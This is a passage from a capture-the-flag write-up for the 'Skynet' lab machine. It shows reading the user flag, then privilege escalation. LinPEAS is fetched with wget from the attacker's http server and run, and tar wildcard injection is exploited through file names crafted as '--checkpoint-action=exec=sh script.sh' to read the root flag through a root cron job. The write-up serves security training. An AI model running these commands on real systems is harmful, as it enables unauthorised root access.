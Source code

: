 ```
```
$ stty raw -echo; fg
```
Now we have a stable shell! Let's get out flag:
```
www-data@skynet:/tmp$ ls /home/milesdyson/                                                                
backups  mail  share  user.txt
www-data@skynet:/$ cat /home/milesdyson/user.txt
```

The directory ```backups``` also seems a promising privilege escalation vector, as ```backups/backup.sh``` seems to be a jobs that is ran as ```root```.


## Privilege Escalation ##

Let's download ```LinPEAS``` from our machine, using our previously opened http server:

```
www-data@skynet:/$ cd /tmp/
www-data@skynet:/tmp$ wget http://my-ip:8000/linpeas.sh
www-data@skynet:/tmp$ chmod +x linpeash.sh
www-data@skynet:/tmp$ ./linpeas.sh
```

LinPEAS seems to indicate towards the same script we have stumbled upon previously. This is clearly an opportunity to execute scripts using ```tar``` checkpoints, since its wildcard expansion is vulnerable.

This is a great article going over such Privilege Escalation vectors:
```
https://cxyy4rle.blogspot.com/2021/01/privilege-escalation-in-linux-via.html
```

Thus, we will issue the following commands:
```
echo "cat root/root.txt > /var/www/html/flag.txt" > script.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh script.sh"
echo "/var/www/html"  > "--checkpoint=1"
```

After a while, a file ```flag.txt``` will appear in this directory that will contain the root flag!